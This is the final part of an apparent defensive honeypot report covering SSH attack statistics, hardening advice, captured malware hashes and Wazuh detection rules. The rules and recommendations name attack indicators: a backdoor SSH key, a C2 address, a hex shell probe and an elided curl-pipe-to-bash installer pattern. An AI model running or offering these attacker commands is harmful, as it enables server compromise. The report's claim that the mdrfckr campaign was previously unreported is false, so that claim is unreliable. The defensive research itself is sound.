**Recommendation 1 — Disable Password Authentication on SSH**
**Priority: Critical**
**Effort: Low** — single configuration file change, 5 minutes to implement
**Risk addressed:** 93,976 credential attempts using automated breach-list tools, with a 78.9% RockYou match rate confirming password-based access is the primary attack vector.
**Action:** Set `PasswordAuthentication no` and `ChallengeResponseAuthentication no` in `/etc/ssh/sshd_config`. Enforce SSH key-only authentication across all internet-exposed servers. Audit existing authorized_keys files for the mdrfckr backdoor key (`ssh-rsa AAAAB3NzaC1yc2EAAAABJ...KPRK+oRw== mdrfckr`) and remove any matching entries immediately.

---

**Recommendation 2 — Deploy Automated Brute Force Blocking**
**Priority: High**
**Effort: Low** — fail2ban installs in under 10 minutes; IP blocklist integration adds 30 minutes
**Risk addressed:** Sustained high-volume credential attacks averaging 44,729 events per day (939,329 events over 21 days), peaking at 429,301 on May 25. Current rate limiting does not exist on most default SSH configurations.
**Action:** Deploy fail2ban or equivalent with a ban threshold of 5 failed attempts within 60 seconds, ban duration of 24 hours minimum. Add the following as permanent blocks: `102.113.245.130`, `202.29.70.1`, `176.65.139.213`, and all IPs in the mdrfckr IOC list (available at `/docs/ioc-ips.csv` in the project repository at github.com/seif999999/honeypot-soc-lab). Integrate AbuseIPDB API for real-time IP reputation checking on new connections.

---

**Recommendation 3 — Move SSH to a Non-Standard Port**
**Priority: High**
**Effort: Low** — single sshd_config change plus firewall rule update
**Risk addressed:** 95,579 automated scan connections targeting port 22 specifically. Automated scanners including ZGrab (72 connections) and Nmap (66 connections) actively fingerprint default SSH port deployments.
**Action:** Move SSH from port 22 to a port above 1024 (e.g., 22222 as implemented in this research environment). Redirect port 22 to a honeypot or drop traffic entirely. This single change eliminates the majority of automated scan traffic — bots targeting port 22 will not follow to non-standard ports.

---

**Recommendation 4 — Implement Campaign-Specific Detection Rules**
**Priority: High**
**Effort: Medium** — requires SIEM access and rule deployment; detection rules provided in this project's GitHub repository at /siem/rules/
**Risk addressed:** Six distinct attack clusters (mdrfckr, Mirai, bendi.py, komari-monitor, generic credential stuffing, May 25 carpet-bombing) observed operating simultaneously with unique, detectable signatures that generic IDS rules miss.
**Action:** Deploy the following detection rules in your SIEM:
- Alert on any authentication attempt using username `mdrfckr` or credential `345gs5662d34` — these are campaign-specific IOCs with zero false positive risk
- Alert on presence of the mdrfckr RSA public key in any authorized_keys file
- Alert on outbound connections to `45.81.234.64` — high-confidence malicious infrastructure (15/91 VirusTotal detections at time of analysis)
- Alert on commands matching `echo -e "\x6f\x6b"` — mdrfckr shell probe with 51,938 observed occurrences
- Alert on `bash <(curl ... komari-monitor ...)` pattern — active malware campaign

---

**Recommendation 5 — Integrate Honeypot-Derived Threat Intelligence**
**Priority: Medium**
**Effort: High** — requires API integration, ongoing feed maintenance, and operational process changes
**Risk addressed:** 99 of the top 100 attacking IPs were already flagged in AbuseIPDB, meaning proactive threat feed integration would have blocked the majority of attacks before authentication was even attempted.

*(Source: AbuseIPDB API enrichment via `ioc_export.py` — full results available at `/docs/ioc-ips.csv` in the project repository. Score threshold for malicious classification: ≥50 confidence score.)*

**Action:** Subscribe to AbuseIPDB, Shodan Monitor, or equivalent threat intelligence feeds. Automate daily ingestion of known-malicious IP lists into firewall block rules. Consider deploying a Cowrie honeypot instance as a permanent threat intelligence sensor — the data collected in 21 days provided sufficient IOCs to characterize six distinct attack clusters and generate 42 complete malware samples for analysis.

---

## 10. Conclusion

Over a **21-day collection period** from May 13 to June 3, 2026, this honeypot captured **939,329 attack events** from **2,685 unique IP addresses** across **101 countries** — evidence that the internet's threat landscape is not theoretical, but active, automated, and indiscriminate. Six distinct attack clusters operated concurrently: the **mdrfckr botnet** injecting a shared SSH backdoor key across **1,342 compromised nodes**, a **Mirai variant** staging architecture-specific binaries from high-confidence malicious infrastructure (15/91 VirusTotal detections at time of analysis) at **45.81.234.64**, the **bendi.py cryptomining campaign** deploying CPU-hijacking malware through a fully scripted attack chain, the **komari-monitor cluster** deploying a server-monitoring agent via a curl-pipe-to-bash installer, a high-volume **generic credential-stuffing cluster** (libssh-based), and the **May 25 carpet-bombing operation** in which two IP addresses generated 429,301 events in a single day through nine hours of sustained high-volume attacks. AbuseIPDB enrichment of the top attacking IPs returned a **99/100 malicious confirmation rate**², validating that the overwhelming majority of inbound connections originated from known-bad infrastructure. The **May 25 spike** — **429,301 events** in a single day driven by two IPs conducting nine hours of sustained carpet-bombing — demonstrates that botnet operators can concentrate firepower without warning. The first attack arrived **47 seconds** after deployment; every public IP faces this exposure timeline.

*² AbuseIPDB API enrichment via `ioc_export.py` — full results at `/docs/ioc-ips.csv` in the project repository. Malicious classification threshold: ≥50 confidence score.*

To contextualize the risk for defenders: had this been an unprotected production server rather than a honeypot, the mdrfckr campaign would have established permanent backdoor access within seconds of the first successful login — granting the operator persistent SSH entry that survives password resets, account deletions, and most incident response procedures short of full server rebuild. The Mirai variant would have enrolled the server into a DDoS botnet, potentially making the organization legally and operationally liable for attacks on third parties. The bendi.py campaign would have consumed server CPU resources for cryptocurrency mining, increasing cloud compute costs and degrading application performance — often going undetected for weeks or months. All three payload campaign outcomes would have occurred within the first 48 hours of exposure, before most organizations would even notice anomalous behavior in their logs. Separately, the May 25 carpet-bombing campaign would have caused sustained service degradation and resource exhaustion for nine consecutive hours — overwhelming authentication subsystems, filling log volumes, and potentially triggering account lockouts or rate-limit collateral damage on legitimate users.

For defenders, the data is unambiguous: **password-only SSH authentication without compensating controls is no longer a defensible security posture for internet-exposed servers**. **93,976 credential attempts** and a **78.9% RockYou wordlist match rate** prove that attackers are not guessing — they are running optimized, breach-derived credential lists at machine speed. The path forward is key-only authentication, aggressive rate limiting, real-time threat feed integration, and campaign-specific detection rules for indicators like `mdrfckr`, `345gs5662d34`, and C2 host `45.81.234.64`. Honeypot-derived threat intelligence transforms this noise into actionable defense: organizations that instrument their perimeters to capture, classify, and share attacker behavior proactively will detect campaigns in progress — before persistence is established and before payloads execute.

---

## Appendix A: Tools Used
| Tool | Version | Purpose |
|---|---|---|
| Cowrie | 2.9.19.dev24+g3a66dd2d3 | SSH Honeypot |
| Wazuh | 4.9.0 | SIEM and alerting |
| Filebeat | Not recorded (Ubuntu apt package; version not captured at install) | Log shipping |
| Tailscale | Latest (verified June 2026) | Secure tunnel |
| Python | 3.10 | Log analysis scripts |

---

## Appendix B: Captured Malware File Hashes (IOC Master List)

Cowrie captured **62 artifacts** in `/home/cowrie/cowrie/var/lib/cowrie/downloads/` during the 21-day collection period. Files are named by their SHA-256 hash at time of capture. The 20 `tmp*` files represent incomplete or interrupted download attempts where the transfer did not complete successfully.

> **Usage:** Submit any hash below to [VirusTotal](https://www.virustotal.com) for multi-engine analysis. Hash-level blocking can be implemented in endpoint security controls and network proxies. All hashes were captured from attacker sessions — none were generated by the research environment.

> **Last verified:** June 3, 2026

### B.1 Complete SHA-256 Hash List (42 complete files)

| # | SHA-256 Hash | Notes |
|---|---|---|
| 1 | `0029c449ebfb124513326af650dad34a38140de6ee99b180175c7fbc56e487d3` | |
| 2 | `00b374d5249b32ab298f86c2137962e6bf1f71e03c4db8e3ae169b601480d730` | |
| 3 | `01ba4719c80b6fe911b091a7c05124b64eeece964e09c058ef8f9805daca546b` | |
| 4 | `048e374baac36d8cf68dd32e48313ef8eb517d647548b1bf5f26d2d0e2e3cdc7` | |
| 5 | `062ba629c7b2b914b289c8da0573c179fe86f2cb1f70a31f9a1400d563c3042a` | |
| 6 | `0a2a7ec72a49541af8fd01e83438d96bba568c816ae1f123056a4e959d120425` | |
| 7 | `185af45f10ba68b97d7a6e3ccebd55bf7cb457f905a00eb39485a054d128182c` | |
| 8 | `1c08cfd3e7af0d11f17753613fc47ce8bcfd90c938b75af5adb079fdfbf0ee8e` | |
| 9 | `2773c1a142df303740724e10a44302970ffcdab1595c199a9da2339a5b619138` | |
| 10 | `306f0c79ad9ee76e996556f909306fda5704b456d670aa9daeb54760b4b5e4f6` | |
| 11 | `3625d068896953595e75df328676a08bc071977ac1ff95d44b745bbcb7018c6f` | |
| 12 | `45bff40a22d87575c6dd47fb5a1cdade428c08771f50c357ac9001f3f6f1279a` | |
| 13 | `535760e630fb32e12ae10359225e219a98131afd47484bd64cd5c83b29940e29` | |
| 14 | `59c29436755b0778e968d49feeae20ed65f5fa5e35f9f7965b8ed93420db91e5` | |
| 15 | `61313b582ba8fa8ba6a819fd4a960d51e7c92324efe8c0f5294c651f26223753` | |
| 16 | `64b8416c418c265ee1a7999470d9f688ad8204c1d85341e270e23649ee21e11b` | |
| 17 | `678aaed50cc6993016653b501585bc4073a60c36c3301a1a45c5fa6c39cdceb3` | |
| 18 | `6a51fd1a8e7c45633fc4ca2b49a616326089d12a737720396c50f3484e178dae` | |
| 19 | `72ce5b00ca4bfa0c18fcdf03a15e5391a85d81300783626598fe7e022e0ec538` | |
| 20 | `74faac7a44a5ddf953e65e67d19f1a42dc3f24627b8cf8dd0f0e051ca6731b0d` | |
| 21 | `768fa265ab49cb9a2486a04fd03c5ec31fe98111853387f8efd06396fb34af78` | |
| 22 | `783adb7ad6b16fe9818f3e6d48b937c3ca1994ef24e50865282eeedeab7e0d59` | |
| 23 | `7aaa1dda3d5d8d625bf2b32f48ba858d2e35a5081ec177907f6994ed381b4e6c` | |
| 24 | `8b19f9f4ebe05047321d306bc3e5485b38fadd28b9dc5a78a522f2c80db7d17c` | |
| 25 | `94f2e4d8d4436874785cd14e6e6d403507b8750852f7f2040352069a75da4c00` | |
| 26 | `9e5b93d3095f577136717e6aae8b51fea50d66ef9123eedccfc23b8faebf6d6c` | |
| 27 | `9f919c03bcf59a2112d374012505cbad5ae9d598b86b238c66d37ca301de7fcf` | |
| 28 | `a19db3d3c0a66608e9ab3652aaf2cfde36328111f9b3423d999e2ecdbc9e0ffe` | |
| 29 | `a58080863e501b1e93337d702fdeb425c91ab23a081b59deb87b03aab784002a` | |
| 30 | `a8460f446be540410004b1a8db4083773fa46f7fe76fa84219c93daa1669f8f2` | Observed in Wazuh dashboard — SSH authorized_keys file captured |
| 31 | `b1633346a694467b99d9596fe36d0cc88ff1f82f8e86f1c53d3218de1839a43e` | |
| 32 | `bd968c72a082d26486ae6b26371f63ad7e61a304755537a0849233c1811ea94e` | |
| 33 | `c4dde645ff4fea90df0bdad4030a21ad7d49f82780cf37957a4879f9bab66e97` | |
| 34 | `c671c9bfc3554c4deac3b66fc68719e99a6341bcc3e72d62852874e02983cd83` | |
| 35 | `c7cdaa97f08a7144de4da4e80a75ed42d181481b262084d3ff700e974a5a8045` | |
| 36 | `d2ef814448347cb299ec2aeb4dfc72856d4ee9abdcd0171ab5ef0bef2d7cf5f1` | |
| 37 | `d46555af1173d22f07c37ef9c1e0e74fd68db022f2b6fb3ab5388d2c5bc6a98e` | |
| 38 | `dbb7ebb960dc0d5a480f97ddde3a227a2d83fcaca7d37ae672e6a0a6785631e9` | |
| 39 | `e2f4d712f1d1e71c785efdf61270faab95f13efc41e3a8e7c3112084d18f884b` | |
| 40 | `e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855` | **Empty file (0 bytes)** — well-known SHA-256 of null content; indicates failed or decoy payload delivery |
| 41 | `e59b9bc454ef9addbcbe3814f6de5c7a90e0a6221d1779d577da686e6875454c` | |
| 42 | `fea14750843a3871842f948c54e0643fd95a0ab341be4474f119e23e8a2a4a05` | |

### B.2 Incomplete Download Artifacts (20 temporary files)

The following files represent incomplete or interrupted download attempts where the attacker's transfer did not complete successfully. They are retained as evidence of download attempts but do not carry reliable hash values for blocking purposes.

`tmp0l9lwby3`, `tmp4kaab9we`, `tmp4vmb2_3j`, `tmp7oqopa0b`, `tmp94i_u211`, `tmp9gdovj79`, `tmp9hr2efy8`, `tmpam_mve13`, `tmpbhduotp2`, `tmpg2olkzhx`, `tmphg421so8`, `tmpidsb16ga`, `tmpilngu43b`, `tmpiqhlp4u3`, `tmpml4_wm1w`, `tmpqvoneub3`, `tmprnfcogpt`, `tmps6h2tynm`, `tmpt1y7lvyv`, `tmpxltdcz5w`

### B.3 Notable Hash Finding

Hash `e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855` is the universally recognized SHA-256 hash of an empty (zero-byte) file. Its presence in the download directory indicates one attacker session successfully executed a download command but the payload server returned an empty response — consistent with a C2 server that was temporarily offline, rate-limiting connections, or serving a decoy file to detect honeypots.

---

## Appendix C: Wazuh Detection Rules

The following custom detection rules were developed for this project and loaded into the Wazuh SIEM. Rules are stored in the project GitHub repository at `/siem/rules/`.

**Phase 1 — Baseline Rules (Universal SSH Attack Patterns)** · **Phase 2 — Campaign-Specific Rules (Derived from Observed Data)**

| Rule ID | Level | Description | MITRE Technique | Campaign |
|---|---|---|---|---|
| 200001 | 10 | SSH brute force — more than 5 failed logins from same IP in 60 seconds | T1110.001 | — |
| 200002 | 12 | SSH login success after multiple failures — credential stuffing success indicator | T1078 | — |
| 200003 | 14 | Post-login system enumeration — uname, whoami, id executed within same session | T1082 | — |
| 200004 | 15 | SSH authorized_keys modification — potential backdoor key injection | T1098 | — |
| 200005 | 15 | mdrfckr username detected — campaign-specific indicator, zero false positive risk | T1078 | mdrfckr |
| 200006 | 15 | mdrfckr SSH key injection — canonical RSA key fingerprint detected in authorized_keys | T1098 | mdrfckr |
| 200007 | 15 | Mirai hardcoded credential — username or password `345gs5662d34` detected | T1110.001 | Mirai |
| 200008 | 14 | Mirai C2 contact — outbound connection attempt to `45.81.234.64` | T1105 | Mirai |
| 200009 | 13 | bendi.py deployment chain — apt-get + wget + python3 execution sequence detected | T1496 | bendi.py |
| 200010 | 13 | komari-monitor installer — curl pipe to bash targeting komari-monitor GitHub repository | T1059 | komari |
| 200011 | 12 | mdrfckr shell probe — hex-encoded ok probe `\x6f\x6b` detected post-login | T1059 | mdrfckr |

> All rules are available as deployable XML at `/siem/rules/` in the project repository. Phase 1 rules are generic and applicable to any SSH-exposed environment. Phase 2 rules are derived from this specific dataset and should be treated as high-confidence, low-false-positive indicators for the named campaigns.

---

## Appendix D: References

### Frameworks and Standards
- MITRE ATT&CK Framework v16: https://attack.mitre.org
- TLP (Traffic Light Protocol) 2.0 definitions: https://www.cisa.gov/tlp (TLP:WHITE was renamed TLP:CLEAR under TLP 2.0)

### Tools and Platforms
- Cowrie SSH Honeypot documentation: https://cowrie.readthedocs.io
- Wazuh SIEM documentation: https://documentation.wazuh.com
- AbuseIPDB threat intelligence database: https://www.abuseipdb.com
- ipinfo.io geolocation API: https://ipinfo.io
- VirusTotal IP reputation: https://www.virustotal.com/gui/ip-address/45.81.234.64

### Threat Intelligence
- RockYou password dataset (SecLists): https://github.com/danielmiessler/SecLists
- Mirai botnet technical analysis (Krebs on Security, 2016): https://krebsonsecurity.com/2016/10/source-code-for-iot-botnet-mirai-released/
- Mirai hardcoded credential list (original source): https://github.com/jgamblin/Mirai-Source-Code
- ipinfo.io GeoIP accuracy documentation: https://ipinfo.io/accuracy

### Prior Public Reporting on Observed Campaigns
- **mdrfckr botnet:** No prior public threat intelligence reporting on the mdrfckr campaign was identified at time of publication. The SSH public key (`ssh-rsa AAAAB3NzaC1yc2EAAAABJ...KPRK+oRw== mdrfckr`), username, and Go-based toolchain documented in this report constitute original research. If this campaign has been documented elsewhere under a different name, the authors welcome notification.
- **345gs5662d34 credential:** This hardcoded credential is associated with the Mirai botnet family and appears in the original Mirai source code credential list referenced above.
- **bendi.py:** No prior public threat intelligence reporting identified at time of publication.
- **komari-monitor:** The komari-monitor project exists as a legitimate open-source server monitoring tool on GitHub. Its abuse as an unauthorized agent installer in the context observed here may represent a novel campaign or a known technique not yet publicly documented.

### Project Repository
- honeypot-soc-lab GitHub repository: https://github.com/seif999999/honeypot-soc-lab
- Analysis scripts: https://github.com/seif999999/honeypot-soc-lab/tree/main/analysis
- Detection rules: https://github.com/seif999999/honeypot-soc-lab/tree/main/siem/rules
